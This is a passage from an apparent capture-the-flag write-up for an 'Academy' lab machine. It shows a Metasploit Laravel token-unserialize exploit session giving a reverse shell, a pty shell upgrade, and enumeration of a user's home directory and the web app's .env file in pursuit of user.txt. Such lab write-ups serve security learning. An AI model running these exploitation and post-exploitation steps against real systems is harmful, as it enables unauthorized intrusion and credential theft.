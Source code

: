 Now lets run this and see what I get next →

![Untitled](/Vulnhub-Files/img/Academy/Untitled%208.png)

Now I got the reverse shell in 4 sessions so lets use the 1 session →

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > sessions 1
[*] Starting interaction with 1...

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/var/www/html/htb-academy-dev-01/public$ whoami
whoami
www-data
www-data@academy:/var/www/html/htb-academy-dev-01/public$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```
{: .nolineno}
{: .nolineno}

Now I got the reverse shell so lets dig into this →

```bash
www-data@academy:/home/cry0l1t3$ ls -al
ls -al
total 32
drwxr-xr-x 4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .
drwxr-xr-x 8 root     root     4096 Aug 10  2020 ..
lrwxrwxrwx 1 root     root        9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r-- 1 cry0l1t3 cry0l1t3  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 cry0l1t3 cry0l1t3 3771 Feb 25  2020 .bashrc
drwx------ 2 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .cache
drwxrwxr-x 3 cry0l1t3 cry0l1t3 4096 Aug 12  2020 .local
-rw-r--r-- 1 cry0l1t3 cry0l1t3  807 Feb 25  2020 .profile
-r--r----- 1 cry0l1t3 cry0l1t3   33 Jul 21 04:15 user.txt
www-data@academy:/home/cry0l1t3$
```
{: .nolineno}
{: .nolineno}

For opening this user.txt file I need to be `cry0l1t3` user →

```bash
www-data@academy:/var/www/html/htb-academy-dev-01$ ls -al
total 284
drwxr-xr-x 12 root root   4096 Aug 13  2020 .
drwxr-xr-x  4 root root   4096 Aug 13  2020 ..
-rw-r--r--  1 root root    702 Aug 13  2020 .env
-rw-r--r--  1 root root    651 Feb  7  2018 .env.example
-rw-r--r--  1 root root    111 Feb  7  2018 .gitattributes
-rw-r--r--  1 root root    155 Feb  7  2018 .gitignore
drwxr-xr-x  6 root root   4096 Feb  7  2018 app
-rwxr-xr-x  1 root root   1686 Feb  7  2018 artisan
drwxr-xr-x  3 root root   4096 Feb  7  2018 bootstrap
-rw-r--r--  1 root root   1513 Aug 13  2020 composer.json
-rw-r--r--  1 root root 193502 Aug 13  2020 composer.lock
drwxr-xr-x  2 root root   4096 Feb  7  2018 config
drwxr-xr-x  5 root root   4096 Feb  7  2018 database
```